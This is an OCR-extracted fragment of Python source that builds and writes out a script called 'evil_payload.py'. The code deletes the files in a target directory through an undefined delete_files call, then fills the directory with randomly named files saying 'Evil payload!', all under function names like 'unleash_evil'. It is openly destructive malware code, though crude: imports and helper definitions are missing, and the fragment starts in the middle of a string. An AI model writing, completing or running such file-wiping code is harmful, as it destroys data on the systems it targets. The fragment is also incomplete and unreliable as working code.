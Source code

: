 ```python


# Generate random filenames

def generate_filenames(directory, num_files):

    filenames = []

    for _ in range(num_files):

        filename = ''.join(random.choices('abcdefghijklmnopqrstuvwxyz', k=10))

        file_path = os.path.join(directory, filename)

        filenames.append(file_path)

    return filenames



# Generate evil payload

def generate_evil_payload(directory, num_files):

    filenames = generate_filenames(directory, num_files)

    for filename in filenames:

        with open(filename, 'w') as file:

            file.write('Evil payload!')



# Delete files and generate evil payload

def unleash_evil(directory, num_files):

    delete_files(directory)

    generate_evil_payload(directory, num_files)



# Specify the target directory and number of files to delete and generate

target_directory = '/path/to/target/directory'

num_files_to_delete = 100

num_files_to_generate = 50



# Unleash the evil!

unleash_evil(target_directory, num_files_to_delete)

'''

    with open('evil_payload.py', 'w') as file:

        file.write(payload)
```